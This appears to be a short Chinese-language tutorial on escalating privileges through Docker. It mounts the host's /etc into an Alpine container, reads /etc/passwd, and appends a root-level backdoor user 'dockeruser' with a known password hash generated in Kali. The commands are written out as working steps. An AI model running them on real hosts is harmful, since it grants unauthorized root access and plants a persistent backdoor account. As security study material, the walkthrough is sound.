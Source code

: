 

##### 启动镜像

```bash
docker run -v /etc/:/mnt -it alpine /bin/sh
whoami
cd /mnt
cat /mnt/passwd
echo 'dockeruser:$1$dockerus$/f14fXjMyaiyzR90lxQmX/:0:0::/root:/bin/bash' >>/mnt/passwd 	#dockeruser/admin123
```

启动docker，将宿主机`/etc` 目录挂载到docker系统的`/mnt`目录下

查看当前docker下用户为root权限

切换到/mnt目录可以查看和编辑passwd

##### 新建用户

在kali下执行命令生成用户

> dockeruser/admin123

```bash
openssl passwd -1 -salt dockeruser
```



```bash
$1$dockerus$/f14fXjMyaiyzR90lxQmX/
```



```bash
┌──(root㉿kali)-[~/Desktop/learn/3]
└─# openssl passwd -1 -salt dockeruser
Password: 
$1$dockerus$/f14fXjMyaiyzR90lxQmX/
```



```bash
vi /mnt/passwd
dockeruser:$1$dockerus$/f14fXjMyaiyzR90lxQmX/:0:0::/root:/bin/bash

echo 'dockeruser:$1$dockerus$/f14fXjMyaiyzR90lxQmX/:0:0::/root:/bin/bash' >>/mnt/passwd
exit
```

> dockeruser / admin123

保存退出，并退出docker，在宿主机下确认文件修改成功



##### dockeruser

使用新建的用户和密码登录
